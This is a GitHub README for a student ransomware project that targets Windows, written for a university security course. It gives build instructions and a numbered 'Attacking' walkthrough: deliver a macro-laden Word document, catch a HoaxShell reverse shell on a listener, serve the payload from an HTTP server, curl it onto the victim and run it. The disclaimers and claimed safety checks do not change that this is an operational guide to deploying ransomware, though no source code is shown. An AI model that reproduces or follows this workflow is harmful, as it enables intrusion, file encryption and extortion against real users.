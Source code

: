 # Disclaimer: Educational Use Only
This is a live ransomware, and can be activated. Source code has been provided, and safety checks have been builtin and processes are non-destructive. However, the malware can easily be activated and changed, and therefore use responsibily. This repository has been made private, and should only be accessed by the author and trusted individuals. Do not repurpose this educational ransomware for malicious purposes. 

If you are trusted, do not share this repository around. And despite having safety checks in place, this can still be worked around and abused. Be responsible. I will not take any repurcussion nor consequences of your actions.

This ransomware is created strictly for educational purposes and is intended to demonstrate how ransomware works in a controlled environment. It is designed to help cybersecurity professionals, students, and researchers understand and learn about the mechanics of ransomware in order to improve defenses against such attacks.

By downloading or using this software, you agree to the following:

- You will use this tool in a legal and ethical manner, strictly for educational and research purposes in environments where you have permission.
- You acknowledge that deploying this software on systems without permission is illegal and may result in severe penalties under applicable laws.
- The developer is not responsible for any misuse of this software.
- Use responsibly, and always in compliance with local laws and regulations.

Make sure you ONLY COMPROMISE YOUR OWN SYSTEM, OR WITH WRITTEN PERMISSION. I will take no responsibility for any legal repurcussions.

# Something Awesome Ransomware - Simple (SARS)
This repository is created to host my Something Awesome Project for the course COMP6841. It is a ransomwware, designed to educate myself and others in malware developement, and the ease in which it can cause damage. It has been built to target Windows Machines, due to the majority of the world utilising a Windows System (and I also thought it would be more fun to target).

The ransomware creates a foothold in the system using a malicious Word Document with embedded macros. It requires a HoaxShell listening server (it's an awesome reverse shell, check it out below!), as well as a server hosting the files (for demonstration purposes, this would be targetted to my machine). Two strains/variants of this ransomware has been included - one to establish a C2 connection with a machine, the other as a fire-and-forget ransomware. 

There are safety checks in place to make sure the ransomware is as benign as possible. 
- Files are copied and encrypted, leaving the original file unscathed.
- An expiration time check has been included
- Keys are created and stored in the same file system.
- Would not traverse directories, and will only encrypted the current file layers.
- No lateral movement
- Will only run in a certain subdirectory.

# Installation
Run `git clone <insert link>` in your local terminal to clone the repository.

Install dependencies. These are:
- HoaxShell: https://github.com/t3l3machus/hoaxshell
- MinGW: run `sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64`
- Word (Attack vector)
- OpenSSL library for Linux:
  1. Run
  ```
  wget https://www.openssl.org/source/openssl-1.1.1w.tar.gz
  tar -xvzf openssl-1.1.1w.tar.gz
  cd openssl-1.1.1w
  ```
  2. Run `./Configure mingw64 no-asm shared --cross-compile-prefix=x86_64-w64-mingw32-` (ensure that MingGW is installed)
  3. Run `make`
  4. Run `make install DESTDIR=/path/to/target/directory`, preferably in the same directory as respository.

  
To compile the code: `x86_64-w64-mingw32-gcc -o <outfilename>.exe <file>.c -I./path/to/openssl/include -L.path/to/openssl -lssl -lcrypto -lws2_32 -lwsock32 -lcrypt32 -static`

# Usage/Demonstration (with C2 capabilities)
## Attacking
1. Create a HoaxShell listener on an attacking machine using the command `python3 hoaxshell.py -s <ip> -r -g`. Please refer to the HoaxShell documentation above to learn more about this tool
2. Activate the Word document (and its macros) on the victim machine.
3. Confirm that a connection has been established and a reverse shell created.
4. Create a web server on your own machine to host the files with `python3 -m http.server <insert port>`
5. Use `curl` to download your files onto the target machine with the C2.
6. Use `./<ransomware file name>` to activate.
Note: do not delete the key file. This is necessary for decryption.

## Decrypting
1. Ensure that the key file is present.
2. Compile the decryption software and run it on the victim machine.

Note: the decryption does not support multiple rounds of encryption.
